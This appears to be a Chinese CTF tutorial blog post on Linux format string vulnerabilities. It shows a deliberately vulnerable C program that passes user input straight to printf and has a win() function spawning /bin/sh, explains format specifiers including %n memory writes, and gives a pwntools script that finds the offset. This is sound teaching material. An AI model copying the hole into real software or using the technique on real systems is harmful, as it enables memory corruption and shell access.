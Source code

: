 ```yaml
---
title: linux格式化字符串漏洞
tags: ctf
abbrlink: 54897
date: 2018-06-08 17:55:43
---
```


# 格式化漏洞

### 漏洞代码:

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void win()
{
system("/bin/sh");
}
void main(int argc, char *argv[])
{
char buf[103];
fgets(buf, 103, stdin);
buf[strlen(buf)-1] = 0x0;
printf(buf);
exit(0);
}
```

### 编译

> gcc -Wno-format-security print_format.c -o print_format

### 前置知识

- %d 用于读取10进制数值

- %x 用于读取16进制数值

- %s 用于读取字符串值
- %c 用于读取字符
- %p 用于读取指针地址
- %n 用于讲当前字符串的长度打印到var中，例 printf（"test %hn",&var[其中var为两个字节]） printf（"test %n",&var[其中var为一个字节]）





### 计算偏移和填充



>  offset.py

```
from pwn import *
context.log_level = 'debug'

def exec_fmt(payload):
    p = process("./vuln")
    p.sendline(payload)
    info = p.recv()
    p.close()
    return info

autofmt = FmtStr(exec_fmt)

print autofmt.offset
```

